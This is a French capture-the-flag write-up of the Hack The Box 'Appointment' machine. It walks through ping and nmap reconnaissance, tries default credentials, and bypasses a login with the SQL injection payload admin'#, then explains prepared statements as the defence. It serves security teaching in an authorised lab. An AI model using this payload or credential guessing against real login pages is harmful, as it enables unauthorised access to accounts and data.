



# Introduction

On monte d’un niveau. On passe ici au **Tier 1** du programme **Starting Point**. Jusqu’ici, on a surtout exploité des services mal configurés (anonymes, sans mots de passe). Avec **Appointment**, on change d’approche, on va s’attaquer à la **logique du code**. On va découvrir l’une des failles les plus célèbres du web, l’**Injection SQL**.

>[!WARNING]
>Dans ce writeup, je ne publie pas directement le flag final, l’objectif est d’apprendre en pratiquant. Si vous voulez le flag, suivez les étapes sur la machine.

>[!CAUTION]
>**NOTE :** n’attaquez que des machines sur lesquelles vous avez l’autorisation (ex. machines HTB, ou lab perso). Respectez les règles de la plateforme.

## Vidéo Walkthrough

Je sortirais bientot un tuto vidéo, d'ici la tu peux aller checker ma chaine Youtube

 RavenBreach


---

## Reconnaissance
### Découverte d’hôte
Comme d’habitude, on envoie un petit signal pour voir si la machine est prête à discuter avec la commande ``ping``.
````bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.7]─[ravenbreach@htb-x1aifxhwrs]─[~]
└──╼ [★]$ ping 10.129.8.127

PING 10.129.8.127 (10.129.8.127) 56(84) bytes of data.
64 bytes from 10.129.8.127: icmp_seq=1 ttl=63 time=8.33 ms
64 bytes from 10.129.8.127: icmp_seq=2 ttl=63 time=8.40 ms
64 bytes from 10.129.8.127: icmp_seq=3 ttl=63 time=8.37 ms
64 bytes from 10.129.8.127: icmp_seq=4 ttl=63 time=8.11 ms
64 bytes from 10.129.8.127: icmp_seq=5 ttl=63 time=8.34 ms
^C
--- 10.129.8.127 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4004ms
rtt min/avg/max/mdev = 8.109/8.308/8.396/0.102 ms
````

Tout est au vert, la machine répond parfaitement.

### Énumération des services
Voyons ce que cette cible nous cache derrière ses ports avec ``nmap``.

````bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.7]─[ravenbreach@htb-x1aifxhwrs]─[~]
└──╼ [★]$ nmap -sV 10.129.8.127

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-12-12 09:19 CST
Nmap scan report for 10.129.8.127
Host is up (0.0094s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.62 seconds
````

Le seul port ouvert est le **80**. C’est un serveur **Apache** sous Debian. On a donc affaire à une application web. Allons un peu plus loin avec les scripts par défaut de ``nmap`` et le flag ``-sC``.

````bash
┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.7]─[ravenbreach@htb-x1aifxhwrs]─[~]
└──╼ [★]$ nmap -sC -sV 10.129.8.127

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-12-12 09:21 CST
Nmap scan report for 10.129.8.127
Host is up (0.010s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-server-header: Apache/2.4.38 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.96 seconds
````

Le scan nous confirme que la page par défaut est une page de **Login**. Sortons notre navigateur préféré pour aller voir ça de plus près.

---

## Analyse et Pré-Exploitation
### Le mur du Login
En arrivant sur **http://10.129.8.127**, on tombe sur un formulaire classique.

La première chose que l’on peut tenter c’est d’essayer les identifiants par défaut au cas où l’admin n’aurait rien configuré :

- admin:admin
- guest:guest
- user:user
- root:root
- administrator:password
- etc..

Rien ne fonctionne. L’application est peut-être simple, mais elle n’est pas si évidente. Il est temps de passer à l’offensive logique.

---

## Exploitation

### La faille : Injection SQL
L’application est probablement codée en **PHP** et utilise une base de données **SQL** pour vérifier nos identifiants. Imaginons un instant ce qui se passe dans le code du développeur.

Hypothèse de la requête SQL :
````bash
SELECT * FROM users WHERE username = '$username' AND password = '$password';
````
Si le développeur n’a pas “nettoyé” ce que l’utilisateur tape (les **inputs**), on peut manipuler la requête.

## Le payload
On va utiliser un caractère spécial , l’apostrophe ``‘`` . En **SQL**, elle sert à délimiter les chaînes de caractères. Si on en ajoute une nous-mêmes, on "casse" la structure de la commande.
On va entrer ceci dans le champ Username :
````bash
admin'#
````

Que se passe-t-il dans la tête du serveur ? La requête SQL devient :
````bash
SELECT * FROM users WHERE username = 'admin'#' AND password = 'a';
````

- ``admin’`` : On ferme la chaîne de caractère pour l'utilisateur avec l’apostrophe.
- ``#`` : C'est le symbole de **commentaire** en **SQL**. Tout ce qui suit (le reste de la requête, y compris la vérification du mot de passe) est tout simplement ignoré par la base de données et considéré comme un commentaire !

Pour faire simple, on demande au serveur “Donne-moi l’accès pour l’utilisateur admin, et peu importe la suite”.

### Execution



- Rendez-vous sur la page de login.
- Username : ``admin’#``
- Password : n’importe quoi (ex: ``a``).
- Appuyez sur **Login**.



**TADA** ! La session s’ouvre, l’application est trompée par notre manipulation et nous affiche fièrement le flag sur le tableau de bord.

Flag : e3d{…}672

---

## Post-Exploitation

Cette machine illustre la vulnérabilité **SQL Injection** (**SQLi**). C’est une erreur critique car elle permet de contourner totalement l’authentification sans même connaître le mot de passe.

**Comment s’en protéger** ? En tant que développeur, il ne faut jamais insérer directement des variables dans une requête SQL. On utilise des **requêtes préparées** (Prepared Statements). Avec elles, le serveur sait faire la différence entre une commande SQL et une simple donnée envoyée par l’utilisateur.

La machine est ***pwned*** !

<!-- ---

## Pour aller plus loin

### Script automatisé
Ce n'est pas encore fait mais je prévois de faire un script automatisé !

### Rapport professionnel
Ce n'est pas encore fait mais je prévois de faire un rapport professionnel ! -->